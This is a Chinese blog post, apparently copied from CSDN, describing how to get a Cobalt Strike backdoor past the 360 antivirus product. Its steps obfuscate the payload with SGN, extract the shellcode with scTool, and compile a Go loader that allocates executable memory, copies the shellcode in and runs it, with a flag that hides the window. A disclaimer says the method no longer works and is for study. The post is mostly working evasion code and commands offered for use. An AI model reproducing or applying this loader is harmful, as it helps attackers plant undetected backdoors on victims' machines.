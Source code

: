 <https://blog.csdn.net/weixin_52091458/article/details/127448228>
声明：以下效果已经失效仅供个人学习测试
^
过360 看大白哥第二个公开课，最近用挺好使的

## **静态混淆**
>SGN：<https://www.freebuf.com/articles/database/244566.html> sgn作者直接在github上发起一项挑战，作者认为认为任何基于规则的静态检测机制都不能检测到用SGN编码的二进制文件，如果有人能编写一个可以检测每个编码输出的 YARA 规则，作者愿意拿出奖金来。

用SGN程序混淆编码原生的cs后门，raw为.bin文件（CS-有效载荷-Payload生成器-raw），文件头默认FC48 83E4，编码后随机。
```
sgn -a 64 -c 1 -o p1.bin -1 payload.bin
生成一次为p1.bin文件
```

## **获取shellcode数组**
scTool工具提取bin文件的shellcode数据 为go字节数组。（PS：CS-有效载荷-Payload生成器-常见语言的shellcode数组）
```
scTool.exe -f p1.bin
```

## **编译成可执行文件**
放入go代码
go编译成新exe
```
go build -ldflags="-H windowsgui" main.go

//-ldflags="-H windowsgui -w -s" 去除运行弹窗
```


```
package main

import (
	"io/ioutil"
	"os"
	"syscall"
	"unsafe"
)

const (
	MEM_COMMIT = 0x1000
	MEM_RESERVE = 0x2000
	PAGE_EXECUTE_READWRITE = 0x40
)


func main() {
        var (
	    kernel32 = syscall.MustLoadDLL("kernel32.dll")
	    VirtualAlloc = kernel32.MustFindProc("VirtualAlloc")
	    RtlCopyMemory = kernel32.MustFindProc("RtlCopyMemory")
	    shellcode_buf = []byte{
                    shellcodedata//填自己的shellcode
            }
         )
	addr, _, _ := VirtualAlloc.Call(0, uintptr(len(shellcode_buf)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
	RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&shellcode_buf[0])), uintptr(len(shellcode_buf)))
	syscall.Syscall(addr, 0, 0, 0, 0)
}

```